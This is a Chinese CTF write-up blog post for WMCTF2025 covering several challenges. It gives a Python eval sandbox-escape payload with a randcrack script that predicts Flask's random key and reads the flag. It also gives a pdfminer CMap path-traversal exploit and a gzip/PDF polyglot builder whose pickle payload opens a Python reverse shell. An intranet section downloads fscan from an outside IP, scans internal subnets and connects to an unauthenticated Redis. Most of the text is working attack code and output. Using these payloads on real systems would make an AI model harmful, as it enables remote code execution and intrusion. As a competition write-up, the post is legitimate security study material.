




+++
title= "WMCTF2025"
slug= "wmctf-2025"
description= "还是被N1打成筛子了"
date= "2025-09-21T10:44:45+08:00"
lastmod= "2025-09-21T10:44:45+08:00"
image= ""
license= ""
categories= ["赛题"]
tags= ["ssti","go"]

+++

## guess

by baozongwi

应用代码如下

```python
from flask import Flask, request, jsonify, session, render_template, redirect
import random

rd = random.Random()

def generate_random_string():
    return str(rd.getrandbits(32))

app = Flask(__name__)
app.secret_key = generate_random_string()

users = []

a = generate_random_string()

@app.route('/register', methods=['POST', 'GET'])
def register():
    if request.method == 'GET':
        return render_template('register.html')
    
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    if not username or not password:
        return jsonify({'error': 'Username and password are required'}), 400
    
    if any(user['username'] == username for user in users):
        return jsonify({'error': 'Username already exists'}), 400
    
    user_id = generate_random_string()
    
    users.append({
        'user_id': user_id,
        'username': username,
        'password': password
    })
    
    return jsonify({
        'message': 'User registered successfully',
        'user_id': user_id
    }), 201


@app.route('/login', methods=['POST', 'GET'])
def login():

    if request.method == 'GET':
        return render_template('login.html')

    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    if not username or not password:
        return jsonify({'error': 'Username and password are required'}), 400
    
    user = next((user for user in users if user['username'] == username and user['password'] == password), None)
    
    if not user:
        return jsonify({'error': 'Invalid credentials'}), 401
    
    session['user_id'] = user['user_id']
    session['username'] = user['username']
    
    return jsonify({
        'message': 'Login successful',
        'user_id': user['user_id']
    }), 200

@app.post('/api')
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    

    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})
    
    return jsonify({
        'message': 'Access granted',
    })


@app.route('/')
def index():
    if 'user_id' not in session:
        return redirect('/login')
    
    return render_template('index.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001, debug=True)
```

过了key2就可以直接RCE了，不出网，先创建静态文件夹

```json
{
  "key": "3345821131",
  "payload": "(lambda o: o.mkdir('static'))(next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__))"
}
```

再写入文件

```json
{
  "key": "3345821131",
  "payload": "(lambda o: open('static/out.txt','w').write(o.popen('whoami').read()))(next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__))"
}
```

由于需要预测随机数，所以直接一次性payload会比较好

```http
POST /api HTTP/1.1
Host: 127.0.0.1:5001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"
Content-Type: application/json

{
  "key": "3345821131",
  "payload": "(lambda o: [o.mkdir('static'), open('static/out.txt','w').write(o.popen('tac /flag').read())])(next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__))"
}
```

让写个脚本

```python
import requests
from randcrack import RandCrack

base_url = "http://49.232.42.74:30222"

def main():
    s = requests.Session()
    username = "testuser1"
    password = "testuser1"

    register_data = {"username": username, "password": password}
    r = s.post(f"{base_url}/register", json=register_data)
    if r.status_code != 201:
        print(f"注册失败: {r.text}")
        return
    user_id = r.json()['user_id']
    print(f"注册成功，user_id: {user_id}")

    login_data = {"username": username, "password": password}
    r = s.post(f"{base_url}/login", json=login_data)
    if r.status_code != 200:
        print(f"登录失败: {r.text}")
        return
    print("登录成功")

    random_numbers = [int(user_id)]
    for i in range(623):
        data = {"key": "0"}
        r = s.post(f"{base_url}/api", json=data)
        if r.status_code != 403:
            print(f"收集随机数失败: {r.status_code} {r.text}")
            return
        key2 = r.json()['message'].split(':')[1]
        random_numbers.append(int(key2))
        print(f"收集到第{i+1}个随机数: {key2}")

    rc = RandCrack()
    for num in random_numbers:
        rc.submit(num)
    next_rand = rc.predict_getrandbits(32)
    print(f"预测的下一个随机数: {next_rand}")

    payload = "next(c.__init__.__globals__['os'] for c in ().__class__.__base__.__subclasses__() if hasattr(c.__init__,'__globals__') and 'os' in c.__init__.__globals__).popen('mkdir -p static && tac /flag > static/out.txt').read()"
    data = {"key": str(next_rand), "payload": payload}
    r = s.post(f"{base_url}/api", json=data)
    if r.status_code == 200:
        print("Payload执行成功")
    else:
        print(f"Payload执行失败: {r.status_code} {r.text}")
        return

    r = s.get(f"{base_url}/static/out.txt")
    if r.status_code == 200:
        print(f"Flag: {r.text}")
    else:
        print(f"读取flag失败: {r.status_code}")

if __name__ == '__main__':
    main()
```

## pdf2text

by n4c1

先看看代码

```python
from flask import Flask, request, send_file, render_template
from pdfminer.pdfparser import PDFParser
from pdfminer.pdfdocument import PDFDocument
import os, io
from pdfutils import pdf_to_text

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB limit

os.makedirs(app.config['UPLOAD_FOLDER'], exist_ok=True)


@app.route('/')
def index():
    return render_template('index.html')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return 'No file part', 400
    
    file = request.files['file']
    filename = file.filename
    if filename == '':
        return 'No selected file', 400
    
    if '..' in filename or '/' in filename:
        return 'directory traversal is not allowed', 403 

    pdf_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    pdf_content = file.stream.read()

    try:
        # just if is a pdf
        parser = PDFParser(io.BytesIO(pdf_content))
        doc = PDFDocument(parser)
    except Exception as e:
        return str(e), 500
    
    with open(pdf_path, 'wb') as f:
        f.write(pdf_content)

    md_filename = os.path.splitext(filename)[0] + '.txt'
    txt_path = os.path.join(app.config['UPLOAD_FOLDER'], md_filename)

    try:
        pdf_to_text(pdf_path, txt_path)
    except Exception as e:
        return str(e), 500 
    
    return send_file(txt_path, as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

从一个文件里面导入了模块，看看这个文件

```python
from pdfminer.high_level import extract_pages
from pdfminer.layout import LTTextContainer

def pdf_to_text(pdf_path, txt_path):
    with open(txt_path, 'w', encoding='utf-8') as txt:
        for page_layout in extract_pages(pdf_path):
            for element in page_layout:
                if isinstance(element, LTTextContainer):
                    txt.write(element.get_text())
                    txt.write('\n')
```

队友在这里面找到了load

```python
    @classmethod
    def _load_data(cls, name: str) -> Any:
        name = name.replace("\0", "")
        filename = "%s.pickle.gz" % name
        log.debug("loading: %r", name)
        cmap_paths = (
            os.environ.get("CMAP_PATH", "/usr/share/pdfminer/"),
            os.path.join(os.path.dirname(__file__), "cmap"),
        )
        for directory in cmap_paths:
            path = os.path.join(directory, filename)
            if os.path.exists(path):
                gzfile = gzip.open(path)
                try:
                    return type(str(name), (), pickle.loads(gzfile.read()))
                finally:
                    gzfile.close()
        raise CMapDB.CMapNotFound(name)
```

完全可控，所以生成恶意的tar.gz和PDF文件上传即可，但是都是需要伪造成pdf文件才能够上传的，第一步生成一个有恶意opcode的n4c1.pickle.gz，然后最后的PDF还需要去解析/app/uploads/n4c1，就可以成功反弹shell了

```python
from __future__ import annotations
import os
from io import BytesIO
import logging

logging.basicConfig(level=logging.DEBUG)
# This script hardcodes and generates a small PDF containing a variety of
# page-content operators (graphics, text, state) so you can step through
# pdfminer.six extract_pages() and observe how each operator is handled.
#
# Output: samples/debug_ops.pdf
#
# Key points to help debugging pdfminer internals:
# - The font is a Type0 + CIDFont with /Encoding /GB-EUC-H to trigger
#   CMapDB.get_cmap('GB-EUC-H') and thus CMapDB._load_data when not cached.
# - The content stream includes operators: q/Q, cm, w, RG, rg, m, l, h, S,
#   re, f, BT/ET, Tf, Td, Tm (implicit via Td), Tj, TJ.
# - Chinese text bytes <D6D0B9FA> represent "中国" in GB2312, so with
#   /Encoding /GB-EUC-H pdfminer will consult the CMap.


def build_pdf_bytes() -> bytes:
    bio = BytesIO()

    def w(s: bytes) -> int:
        pos = bio.tell()
        bio.write(s)
        return pos

    # Collect objects then build xref.
    objects: list[tuple[int, bytes]] = []

    # 1. Catalog
    objects.append(
        (
            1,
            b"<< /Type /Catalog /Pages 2 0 R >>",
        )
    )

    # 2. Pages
    objects.append(
        (
            2,
            b"<< /Type /Pages /Kids [3 0 R] /Count 1 >>",
        )
    )

    # 4. Type0 Font with GB-EUC-H encoding to trigger CMap loading
    font_type0 = (
        4,
        (
            b"<< /Type /Font /Subtype /Type0 "
            b"/BaseFont /DebugCID "
            # b"/Encoding /..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2Ftmp#2Fn4c1"
            b"/Encoding /..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2F..#2Fapp#2Fuploads#2Fn4c1"
            b"/DescendantFonts [6 0 R] >>"
        ),
    )
    objects.append(font_type0)

    # 6. CIDFont descendant with GB1 registry
    cidfont = (
        6,
        (
            b"<< /Type /Font /Subtype /CIDFontType0 "
            b"/BaseFont /DebugCID "
            b"/CIDSystemInfo << /Registry (n4c1222) /Ordering (n4c1_2) /Supplement 5 >> "
            b"/DW 1000 "
            b"/FontDescriptor << "
            b"/Type /FontDescriptor "
            b"/FontName /DebugCID "
            b"/FontBBox [0 -200 1000 900] "  # 必须是四个数字
            b"/Ascent 800 "
            b"/Descent -200 "
            b"/CapHeight 700 "
            b"/Flags 32 "
            b"/ItalicAngle 0 "
            b"/StemV 80 "
            b">>"
            b">>"
        ),
    )

    objects.append(cidfont)

    # 5. Page content stream — includes a variety of operators
    # Note: GB2312 for 中国 is D6 D0 B9 FA
    content_ops = b"\n".join(
        [
            b"q",  # save graphics state
            b"1 0 0 1 0 0 cm",  # identity CTM (explicit)
            b"0.75 w",  # line width
            b"0 0 1 RG",  # stroke color = blue
            b"1 0 0 rg",  # fill color = red
            b"100 600 m",  # move to
            b"200 650 l",  # line to
            b"300 600 l",  # line to
            b"h",  # close path
            b"S",  # stroke
            b"100 500 150 40 re",  # rectangle
            b"f",  # fill
            b"BT",  # begin text
            b"/F1 24 Tf",  # font + size
            b"100 700 Td",  # move text position
            b"<48656C6C6F20504446> Tj",  # "Hello PDF"
            b"0 -30 Td",  # next line down
            b"<D6D0B9FA> Tj",  # "中国" in GB2312; mapped via GB-EUC-H
            b"-50 -40 Td",  # move
            b"[(AB) -50 (<20>) 100 (CD)] TJ",  # kerning array example
            b"ET",  # end text
            b"Q",  # restore graphics state
            b"",
        ]
    )
    stream = b"stream\n" + content_ops + b"\nendstream"
    content_len = len(stream) - len(b"stream\n") - len(b"\nendstream")
    content_obj = (
        5,
        b"<< /Length %d >>\n" % content_len + stream,
    )
    objects.append(content_obj)

    # 3. Page (references content and font resource)
    page_dict = (
        3,
        (
            b"<< /Type /Page /Parent 2 0 R "
            b"/MediaBox [0 0 612 792] "
            b"/Resources << /Font << /F1 4 0 R >> >> "
            b"/Contents 5 0 R >>"
        ),
    )
    # Ensure ordering: add page after fonts and content so refs exist
    objects.append(page_dict)

    # Start writing file
    w(b"%PDF-1.4\n%\xE2\xE3\xCF\xD3\n")

    offsets: dict[int, int] = {}

    # Write each object, record offsets
    for obj_id, obj_body in objects:
        offsets[obj_id] = w(f"{obj_id} 0 obj\n".encode("ascii"))
        w(obj_body)
        w(b"\nendobj\n")

    # xref
    startxref = bio.tell()
    max_obj = max(offsets) if offsets else 0
    # xref table requires a free entry 0
    w(b"xref\n")
    w(f"0 {max_obj + 1}\n".encode("ascii"))
    # object 0 free
    w(b"0000000000 65535 f \n")
    for i in range(1, max_obj + 1):
        off = offsets.get(i, 0)
        w(f"{off:010d} 00000 n \n".encode("ascii"))

    # trailer
    w(
        (
            b"trailer\n"
            + b"<< "
            + f"/Size {max_obj + 1} ".encode("ascii")
            + b"/Root 1 0 R "
            + b">>\n"
        )
    )
    w(b"startxref\n")
    w(f"{startxref}\n".encode("ascii"))
    w(b"%%EOF\n")

    return bio.getvalue()


def main() -> str:
    out_dir = os.path.join(os.path.dirname(__file__), os.pardir, "samples")
    out_dir = os.path.abspath(out_dir)
    os.makedirs(out_dir, exist_ok=True)
    out_path = os.path.join(out_dir, "debug_ops.pdf")

    data = build_pdf_bytes()
    with open(out_path, "wb") as f:
        f.write(data)

    print("PDF written:", out_path)
    print("Size:", len(data), "bytes")
    return out_path


if __name__ == "__main__":
    main()
```

生成恶意PDF

```python
import struct
import zlib

def build_minimal_pdf(base_offset: int = 0) -> bytes:
    # Build a minimal valid PDF with absolute xref offsets accounting for base_offset
    header = b"%PDF-1.4\n%\xE2\xE3\xCF\xD3\n"

    obj1 = b"""1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
""".replace(b"\r", b"")

    obj2 = b"""2 0 obj
<< /Type /Pages /Kids [3 0 R] /Count 1 >>
endobj
""".replace(b"\r", b"")

    obj3 = b"""3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Contents 4 0 R >>
endobj
""".replace(b"\r", b"")

    stream_body = b"Hello WMCTF!"  # small visible text
    obj4 = (b"4 0 obj\n<< /Length %d >>\nstream\n" % len(stream_body)) + stream_body + b"\nendstream\nendobj\n"

    # Build PDF body and record absolute offsets
    pdf = header
    abs_offsets = []
    for obj in (obj1, obj2, obj3, obj4):
        abs_offsets.append(base_offset + len(pdf))
        pdf += obj

    # xref and trailer with absolute positions
    xref_abs_offset = base_offset + len(pdf)
    xref_lines = ["xref", "0 5", "0000000000 65535 f "]
    for off in abs_offsets:
        xref_lines.append(f"{off:010d} 00000 n ")
    xref = ("\n".join(xref_lines) + "\n").encode("ascii")

    trailer = ("trailer\n<< /Size 5 /Root 1 0 R >>\nstartxref\n" + str(xref_abs_offset) + "\n%%EOF\n").encode("ascii")

    return pdf + xref + trailer

def build_gzip_with_extra(extra_bytes: bytes, payload_bytes: bytes) -> bytes:
    # GZIP header with FEXTRA holding extra_bytes (uncompressed), then deflate-compressed payload, then CRC/ISIZE
    ID1, ID2, CM = 0x1F, 0x8B, 0x08
    FLG = 0x04  # FEXTRA
    MTIME = 0
    XFL = 0
    OS = 255

    if len(extra_bytes) > 0xFFFF:
        raise ValueError("extra_bytes too long for GZIP FEXTRA (max 65535)")

    header = bytes([ID1, ID2, CM, FLG])
    header += struct.pack('<I', MTIME)
    header += bytes([XFL, OS])
    header += struct.pack('<H', len(extra_bytes))
    header += extra_bytes

    # raw deflate for payload
    comp = zlib.compressobj(level=9, wbits=-15)
    comp_data = comp.compress(payload_bytes) + comp.flush()

    crc = zlib.crc32(payload_bytes) & 0xFFFFFFFF
    isize = len(payload_bytes) & 0xFFFFFFFF

    trailer = struct.pack('<II', crc, isize)
    return header + comp_data + trailer

def main():
    # When storing PDF in GZIP FEXTRA, the PDF starts at byte offset 12 from file start
    base_offset = 12  # 10-byte gzip fixed header + 2-byte XLEN
    pdf_bytes = build_minimal_pdf(base_offset=base_offset)

    # payload to be recovered after decompression
    opcode_bytes = b'''(S'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("vps_ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\''
ios
system
.'''

    gz_polyglot = build_gzip_with_extra(extra_bytes=pdf_bytes, payload_bytes=opcode_bytes)

    with open("opcode.gz", "wb") as f:
        f.write(gz_polyglot)

    # Diagnostics
    idx = gz_polyglot.find(b"%PDF-")
    print("%PDF- found at offset:", idx)
    print("Total size:", len(gz_polyglot))

    # Quick local checks
    # 1) Decompress to verify opcode
    try:
        import gzip
        data = gzip.decompress(gz_polyglot)
        print("Decompressed data:", data)
    except Exception as e:
        print("Decompress failed:", e)

    # 2) Basic header preview for PDF
    print("Header preview around %PDF-:", gz_polyglot[idx:idx+20] if idx != -1 else None)
    print("生成 polyglot: 有效GZIP(可解压得到opcode) + 头部携带有效PDF(可通过PDF解析)")

if __name__ == "__main__":
    main()
```

生成恶意opcode的文件，然后就可以反弹shell了

## Shopping company1

by a5rz && baozongwi

直接vshell上线



## Shopping company3

by baozongwi

传个fscan上去，发现有两个网段

```python
wget http://154.36.152.109:9999/fscan

ifconfig
```

对于172的网段进行扫描，结果如下

```python
root@ff7bf03fb11e:/tmp# ./fscan -h 172.20.0.20/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-09-20 13:27:54] [INFO] 暴力破解线程数: 1
[2025-09-20 13:27:54] [INFO] 开始信息扫描
[2025-09-20 13:27:54] [INFO] CIDR范围: 172.20.0.0-172.20.0.255
[2025-09-20 13:27:54] [INFO] 生成IP范围: 172.20.0.0.%!d(string=172.20.0.255) - %!s(MISSING).%!d(MISSING)
[2025-09-20 13:27:54] [INFO] 解析CIDR 172.20.0.20/24 -> IP范围 172.20.0.0-172.20.0.255
[2025-09-20 13:27:54] [INFO] 最终有效主机数量: 256
[2025-09-20 13:27:54] [INFO] 开始主机扫描
[2025-09-20 13:27:54] [SUCCESS] 目标 172.20.0.1      存活 (ICMP)
[2025-09-20 13:27:54] [SUCCESS] 目标 172.20.0.10     存活 (ICMP)
[2025-09-20 13:27:54] [SUCCESS] 目标 172.20.0.20     存活 (ICMP)
[2025-09-20 13:27:57] [INFO] 存活主机数量: 3
[2025-09-20 13:27:57] [INFO] 有效端口数量: 233
[2025-09-20 13:27:57] [SUCCESS] 端口开放 172.20.0.1:22
[2025-09-20 13:27:57] [SUCCESS] 端口开放 172.20.0.10:3000
[2025-09-20 13:27:57] [SUCCESS] 端口开放 172.20.0.1:3000
[2025-09-20 13:27:57] [SUCCESS] 服务识别 172.20.0.1:22 => [ssh] 版本:9.2p1 Debian 2+deb12u7 产品:OpenSSH 系统:Linux 信息:protocol 2.0 Banner:[SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u7.]
[2025-09-20 13:28:07] [SUCCESS] 服务识别 172.20.0.10:3000 => [http]
[2025-09-20 13:28:07] [SUCCESS] 服务识别 172.20.0.1:3000 => [http]
[2025-09-20 13:28:08] [INFO] 存活端口数量: 3
[2025-09-20 13:28:08] [INFO] 开始漏洞扫描
[2025-09-20 13:28:08] [INFO] 加载的插件: ssh, webpoc, webtitle
[2025-09-20 13:28:08] [SUCCESS] 网站标题 http://172.20.0.10:3000   状态码:200 长度:7801   标题:智能商城 - 您的购物天堂
[2025-09-20 13:28:08] [SUCCESS] 网站标题 http://172.20.0.1:3000    状态码:200 长度:7801   标题:智能商城 - 您的购物天堂
[2025-09-20 13:28:10] [SUCCESS] 扫描已完成: 5/5
```

没看到什么特殊的，扫描一下192的段

```python
root@ff7bf03fb11e:/tmp# ./fscan -h 192.168.100.10/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-09-20 13:29:30] [INFO] 暴力破解线程数: 1
[2025-09-20 13:29:30] [INFO] 开始信息扫描
[2025-09-20 13:29:30] [INFO] CIDR范围: 192.168.100.0-192.168.100.255
[2025-09-20 13:29:30] [INFO] 生成IP范围: 192.168.100.0.%!d(string=192.168.100.255) - %!s(MISSING).%!d(MISSING)
[2025-09-20 13:29:30] [INFO] 解析CIDR 192.168.100.10/24 -> IP范围 192.168.100.0-192.168.100.255
[2025-09-20 13:29:30] [INFO] 最终有效主机数量: 256
[2025-09-20 13:29:30] [INFO] 开始主机扫描
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.1   存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.10  存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.20  存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.30  存活 (ICMP)
[2025-09-20 13:29:31] [SUCCESS] 目标 192.168.100.40  存活 (ICMP)
[2025-09-20 13:29:34] [INFO] 存活主机数量: 5
[2025-09-20 13:29:34] [INFO] 有效端口数量: 233
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.1:22
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.20:6379
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.40:8080
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.30:8080
[2025-09-20 13:29:34] [SUCCESS] 端口开放 192.168.100.1:3000
[2025-09-20 13:29:34] [SUCCESS] 服务识别 192.168.100.1:22 => [ssh] 版本:9.2p1 Debian 2+deb12u7 产品:OpenSSH 系统:Linux 信息:protocol 2.0 Banner:[SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u7.]
[2025-09-20 13:29:39] [SUCCESS] 服务识别 192.168.100.20:6379 => [redis] 版本:7.4.5 产品:Redis key-value store
[2025-09-20 13:29:39] [SUCCESS] 服务识别 192.168.100.40:8080 => [http]
[2025-09-20 13:29:39] [SUCCESS] 服务识别 192.168.100.30:8080 => [http]
[2025-09-20 13:29:44] [SUCCESS] 服务识别 192.168.100.1:3000 => [http]
[2025-09-20 13:29:44] [INFO] 存活端口数量: 5
[2025-09-20 13:29:44] [INFO] 开始漏洞扫描
[2025-09-20 13:29:44] [INFO] 加载的插件: redis, ssh, webpoc, webtitle
[2025-09-20 13:29:44] [SUCCESS] 网站标题 http://192.168.100.30:8080 状态码:200 长度:5976   标题:智能办公管理系统 - 智能办公管理系统
[2025-09-20 13:29:44] [SUCCESS] 网站标题 http://192.168.100.1:3000 状态码:200 长度:7801   标题:智能商城 - 您的购物天堂
[2025-09-20 13:29:44] [SUCCESS] 网站标题 http://192.168.100.40:8080 状态码:200 长度:7211   标题:Open WebUI
[2025-09-20 13:29:47] [SUCCESS] Redis 192.168.100.20:6379 发现未授权访问 文件位置:/data/dump.rdb
[2025-09-20 13:29:51] [SUCCESS] Redis无密码连接成功: 192.168.100.20:6379
[2025-09-20 13:29:51] [SUCCESS] 扫描已完成: 8/8
```

有个redis未授权连接一下

```python
PS C:\Users\baozhongqi> redis-cli -h 192.168.100.20 -p 6379
192.168.100.20:6379> info
# Server
redis_version:7.4.5
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:14ef7c78d3983ab
redis_mode:standalone
os:Linux 6.1.0-37-amd64 x86_64
arch_bits:64
monotonic_clock:POSIX clock_gettime
multiplexing_api:epoll
atomicvar_api:c11-builtin
gcc_version:14.2.0
process_id:1
process_supervised:no
run_id:164070046b533e020f5f5b58eae4654a63257f43
tcp_port:6379
server_time_usec:1758375263434887
uptime_in_seconds:79981
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:13544799
executable:/data/redis-server
config_file:
io_threads_active:0
listener0:name=tcp,bind=*,bind=-::*,port=6379

# Clients
connected_clients:3
cluster_connections:0
maxclients:10000
client_recent_max_input_buffer:20480
client_recent_max_output_buffer:0
blocked_clients:0
tracking_clients:0
pubsub_clients:0
watching_clients:0
clients_in_timeout_table:0
total_watched_keys:0
total_blocking_keys:0
total_blocking_keys_on_nokey:0

# Memory
used_memory:1399664
used_memory_human:1.33M
used_memory_rss:10629120
used_memory_rss_human:10.14M
used_memory_peak:1558104
used_memory_peak_human:1.49M
used_memory_peak_perc:89.83%
used_memory_overhead:974712
used_memory_startup:946168
used_memory_dataset:424952
used_memory_dataset_perc:93.71%
allocator_allocated:2109640
allocator_active:2482176
allocator_resident:5873664
allocator_muzzy:0
total_system_memory:7992999936
total_system_memory_human:7.44G
used_memory_lua:31744
used_memory_vm_eval:31744
used_memory_lua_human:31.00K
used_memory_scripts_eval:0
number_of_cached_scripts:0
number_of_functions:0
number_of_libraries:0
used_memory_vm_functions:32768
used_memory_vm_total:64512
used_memory_vm_total_human:63.00K
used_memory_functions:192
used_memory_scripts:192
used_memory_scripts_human:192B
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.18
allocator_frag_bytes:296504
allocator_rss_ratio:2.37
allocator_rss_bytes:3391488
rss_overhead_ratio:1.81
rss_overhead_bytes:4755456
mem_fragmentation_ratio:7.60
mem_fragmentation_bytes:9231280
mem_not_counted_for_evict:640
mem_replication_backlog:0
mem_total_replication_buffers:0
mem_clients_slaves:0
mem_clients_normal:26256
mem_cluster_links:0
mem_aof_buffer:640
mem_allocator:jemalloc-5.3.0
mem_overhead_db_hashtable_rehashing:0
active_defrag_running:0
